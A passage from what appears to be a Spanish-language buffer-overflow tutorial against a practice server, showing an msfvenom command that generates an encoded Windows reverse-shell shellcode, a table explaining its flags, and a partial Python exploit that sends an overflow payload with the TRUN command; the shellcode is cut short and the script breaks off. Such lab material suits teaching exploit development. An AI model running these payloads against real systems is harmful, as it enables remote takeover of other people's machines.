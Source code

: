 Luego tendríamos que probar de nuevo, pues justo queremos que no existan **Badchars**.

<br>

<h3 id="Octavo">Octavo Paso: Creación de Shellcode y Modificación de Exploit</h3>

Vamos a iniciar la creación de nuestro Shellcode que vamos a inyectar y la creación del Exploit.

Primero, vamos a crear nuestro Shellcode:
```bash
msfvenom -p windows/shell_reverse_tcp --platform windows -a x86 LHOST=Tu_IP LPORT=443 -f c -e x86/shikata_ga_nai -b '\x00' EXITFUNC=thread
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of c file: 1506 bytes
unsigned char buf[] = 
"\xdb\xcd\xd9\x74\x24\xf4\xba\x7a\xe1\xd9\x25\x5e\x31\xc9"
"\xb1\x52\x31\x56\x17\x83\xc6\x04\x03\x2c\xf2\x3b\xd0\x2c"
...
...
...
```

Le indicamos a **msfvenom** lo siguiente:

| Parámetros | Descripción |
|--------------------------|
| `-p windows/shell_reverse_tcp` | Usa un payload para Windows que nos de una **Reverse Shell**. |
| `--platform windows -a x86` | El payload será para Windows de **arquitectura (-a) x86**. |
| `-f c` | El payload será hecho para **código C**. |
| `-e x86/shikata_ga_nai` | Usamos el encoder polimórfico **shikata ga nai** (esto lo hace por defecto, pero es bueno especificarlo). |
| `-b '\x00'` | Le indicamos que elimine un byte en específico. |
| `EXITFUNC=thread` | Le indicamos que cree un subproceso para que el servicio siga operativo. |

<br>

Ponemos el resultante en nuestro Exploit, quedando así:

```python
#!/usr/bin/python3

import socket

# Variables globales
ip_addr = "IP_máquina_windows"
port = 9999
offset = 2003
before_eip = b"A"*offset
eip = b"B"*4

shellcode =  (b"\xdb\xcd\xd9\x74\x24\xf4\xba\x7a\xe1\xd9\x25\x5e\x31\xc9"
b"\xb1\x52\x31\x56\x17\x83\xc6\x04\x03\x2c\xf2\x3b\xd0\x2c"
...
...
...

after_eip = shellcode

payload = b"TRUN /.:/" + before_eip + eip + after_eip

def exploit():
```